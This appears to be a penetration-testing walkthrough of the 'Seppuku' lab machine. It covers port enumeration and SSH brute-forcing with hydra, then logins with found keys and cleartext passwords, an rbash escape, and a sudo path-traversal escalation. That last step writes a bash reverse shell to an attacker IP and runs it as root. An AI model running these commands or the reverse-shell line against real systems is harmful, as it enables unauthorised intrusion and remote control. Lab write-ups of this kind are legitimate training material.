




# Seppuku

**IP Address:** 192.168.76.90

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 21    | ftp      | vsftpd 3.0.3 | 
| 22    | ssh      | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) |
| 80    | http     | nginx 1.14.2 |
| 139   | smb      | Samba smbd 3.X - 4.X (workgroup: WORKGROUP) | 
| 445   | smb      | Samba smbd 4.9.5-Debian (workgroup: WORKGROUP) | 
| 7080  | http     | LiteSpeed httpd |
| 7601  | http     | Apache httpd 2.4.38 ((Debian)) | 
| 8088  | http     | LiteSpeed httpd |

rabbit-hole


## Exploitation (seppuku account)
### Exploit Details (Bruteforce login)
* **Name** - Bruteforce login
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

A password list file was found at http://192.168.76.90:7601/secret/password.lst this file can be used to bruteforce the login for the "seppuku" user login. 

Commands
```bash
hydra $ip -s 22 ssh -l seppuku -P password.lst -F
ssh seppuku@$ip
eeyoree
whoami
cat local.txt
```


## Exploitation (tanto account)
### Exploit Details (Found credentials)
* **Name** - Found credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

Once we have logged into the seppuku account we can see that there is other users (samurai, tanto & root). We can log into the tanto account using the private key we found at http://192.168.76.90:7601/keys/private

Commands
```bash
chmod 600 private
ssh -i private tanto@$ip
```


## Pivot (samurai account)
### Exploit Details (Found credentials)
* **Name** - Found credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

In the home directory of the seppuku account we can find a password located in the .passwd file. 

Commands
```bash
cat .passwd
su samurai
12345685213456!@!@A
whoami
```



## Privilege Escalation (Sudo rights)
### Exploit Details (Sudo rights)
* **Name** - Sudo rights
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

In the samurai account we can see that we have access to the sudo command "/../../../../../../home/tanto/.cgi_bin/bin /tmp/*" however the binary doesn't exist in the path. We have access to the tanto account so we can create any binary we like here. Also we are in a restricted rbash account so we need to reconnect and escape the rbash shell. 

Commands
```bash
sudo -l
ls -al /home/tanto
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
mkdir .cgi_bin
cp /bin/bash .cgi_bin/bin
ssh samurai@$ip -t "bash --noprofile"
12345685213456!@!@A
echo "bash -i >& /dev/tcp/192.168.49.76/53 0>&1" > /tmp/exploit
chmod 777 /tmp/exploit
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/exploit
whoami
cat /root/proof.txt
```




